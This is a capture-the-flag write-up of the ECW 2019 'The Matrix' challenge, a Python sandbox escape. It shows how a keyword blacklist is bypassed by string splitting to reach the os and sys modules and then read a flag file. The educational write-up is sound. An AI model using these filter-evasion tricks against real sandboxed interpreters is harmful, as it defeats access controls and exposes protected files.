



# ECW-Challenge 2019 Writeup: The Matrix 

The Matrix is a challenge from the European Cyber Week qualification CTF and provides the challenger with an interpreter after logging in to the challenge server via ssh. For me, this one was the easiest challenge from all of them, but nevertheless one of my favorites since it was my first experience with sandbox escapes.



The objective according to the challenge description was to escape from the matrix. The ``>>>`` prompt looks familiar, after trying out some commands such as ``print()`` and looking at the error messages, we can confirm its Python3.
Since "escaping from the matrix" was the goal of this challenge, my first approach was to exit the interpreter to gain a shell on the host and get the flag. 
Trying to quit the shell by simply typing ``quit`` resulted in Agent Smith interrupting my command. Him and Trinity seem to block certain keywords and functions. 



Since ```import``` was blocked as well, I tried to juggle with classes and references to get access to the powerful modules such as ``sys`` and ``os``. ```__builtins__.globals()``` was my access to the available modules on python. ```os``` and ```sys``` were blocked, but splitting the strings into two was enough to bypass that. ```dir()``` is a really helpful function in this case: it returns all attributes of the object passed to it.
```python
# access os - module
print(dir(__builtins__.globals()["sy"+"s"].modules["o"+"s"]))
# access sys - module
print(dir(__builtins__.globals()["sy"+"s"]))
```
Sadly, calling ``sys.exit()`` also exited my ssh-session. I then recalled the goal, which ultimately was to get a flag, and not escape the interpreter. Using ``os``, I found out the current path and printed its contents:
```python
print(__builtins__.globals()["sy"+"s"].modules["o"+"s"].getcwd())
# /app
print(next(__builtins__.globals()["sy"+"s"].modules["o"+"s"].fwalk("/app"))) 
# ('/app', [], ['flag.txt'], 3)
```
So the flag is in the file called flag.txt! From here it was pretty straightforward: open the file using ``os.open()`` and parse the content using ``os.read()``. The flag format was known to be ``ECW{64HexBytes}``, so extracting 69 bytes from the file would lead to the flag. 
```python
file = __builtins__.globals()["sy"+"s"].modules["o"+"s"].open("/app/flag.txt", 0)
print(__builtins__.globals()["sy"+"s"].modules["o"+"s"].read(file, 69))
```
And there we go:



